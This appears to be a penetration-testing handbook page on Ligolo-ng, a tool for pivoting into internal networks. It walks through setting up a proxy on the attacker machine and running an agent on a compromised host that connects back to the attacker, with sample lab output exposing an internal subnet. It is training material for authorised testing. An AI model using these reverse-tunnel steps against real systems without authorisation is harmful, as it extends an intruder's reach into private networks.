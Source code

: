 ```yaml
---
title: "[Bonus] - Ligolo-ng"
type: handbook
weight: 7
---
```


`Ligolo-Ng` is a lightweight and efficient tool designed to enable penetration testers to establish tunnels through reverse TCP/TLS connections, employing a tun interface. Noteworthy features include its GO-coded nature, VPN-like behavior, customizable proxy, and agents in GO. The tool supports multiple protocols, including ICMP, UDP, SYN stealth scans, OS detection, and DNS Resolution, offering connection speeds of up to 100 Mbits/sec. Ligolo-Ng minimizes maintenance time by avoiding tool residue on disk or in memory.

### Installation

Refer [Ligolo-ng](https://github.com/Nicocha30/ligolo-ng) for complete installation.

### Setting up Ligolo-ng

Install ligolo proxy and ligolo agent from the above resource.

```bash
tar -xvf ligolo-ng-proxy.tar.gz ligolo-ng-agent.tar.gz
```

Before moving forward, you need to create a separate tun interface for ligolo.

```bash {filename="Note"}
Creating tun interface is required every single time we want to use ligolo-ng
```

```bash
sudo ip tuntap add user [your_username] mode tun ligolo
sudo ip link set ligolo up
ip addr show ligolo
```

Run ligolo-ng proxy on the attacker machine:

```bash
sudo ./proxy -selfcert
```

```bash
sudo ./proxy -selfcert
INFO[0000] Loading configuration file ligolo-ng.yaml    
WARN[0000] Using default selfcert domain 'ligolo', beware of CTI, SOC and IoC! 
INFO[0000] Listening on 0.0.0.0:11601                   
INFO[0000] Starting Ligolo-ng Web, API URL is set to: http://127.0.0.1:8080 
WARN[0000] Ligolo-ng API is experimental, and should be running behind a reverse-proxy if publicly exposed. 
    __    _             __                       
   / /   (_)___ _____  / /___        ____  ____ _
  / /   / / __ `/ __ \/ / __ \______/ __ \/ __ `/
 / /___/ / /_/ / /_/ / / /_/ /_____/ / / / /_/ / 
/_____/_/\__, /\____/_/\____/     /_/ /_/\__, /  
        /____/                          /____/   

  Made in France ♥            by @Nicocha30!
  Version: 0.8.2
```

Run ligolo-ng agent on the pivoting or compromised host:

```bash
./agent -connect <attacker-ip>:<port-from-proxy> --ignore-cert
```

```bash
ubuntu@WEB01:~$ ./agent -connect 10.10.16.42:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled     
INFO[0000] Connection established                        addr="10.10.16.42:11601"
```

Once the proxy and agent is running, we need to start session on proxy by following command:

```bash
ligolo-ng >> session
```

```bash
ligolo-ng » INFO[0096] Agent joined.                                 id=005056b08bf9 name=ubuntu@WEB01 remote="10.129.71.91:60908"
ligolo-ng » 
ligolo-ng » session
? Specify a session : 1 - ubuntu@WEB01 - 10.129.71.91:60908 - 005056b08bf9
[Agent : ubuntu@WEB01] » 
```

You can confirm the connection with the jump host or pivoting host by typing `ifconfig` to see the internal network:

```bash
ligolo-ng >> ifconfig
```

```bash
[Agent : ubuntu@WEB01] » ifconfig
┌────────────────────────────────────┐
│ Interface 0                        │
├──────────────┬─────────────────────┤
│ Name         │ lo                  │
│ Hardware MAC │                     │
│ MTU          │ 65536               │
│ Flags        │ up|loopback|running │
│ IPv4 Address │ 127.0.0.1/8         │
│ IPv6 Address │ ::1/128             │
└──────────────┴─────────────────────┘
┌─────────────────────────────────────────────────┐
│ Interface 1                                     │
├──────────────┬──────────────────────────────────┤
│ Name         │ ens192                           │
│ Hardware MAC │ 00:50:56:b0:8b:f9                │
│ MTU          │ 1500                             │
│ Flags        │ up|broadcast|multicast|running   │
│ IPv4 Address │ 10.129.71.91/16                  │
│ IPv6 Address │ dead:beef::250:56ff:feb0:8bf9/64 │
│ IPv6 Address │ fe80::250:56ff:feb0:8bf9/64      │
└──────────────┴──────────────────────────────────┘
┌───────────────────────────────────────────────┐
│ Interface 2                                   │
├──────────────┬────────────────────────────────┤
│ Name         │ ens224                         │
│ Hardware MAC │ 00:50:56:b0:79:52              │
│ MTU          │ 1500                           │
│ Flags        │ up|broadcast|multicast|running │
│ IPv4 Address │ 172.16.5.129/23                │
│ IPv6 Address │ fe80::250:56ff:feb0:7952/64    │
└──────────────┴────────────────────────────────┘
[Agent : ubuntu@WEB01] »  
```

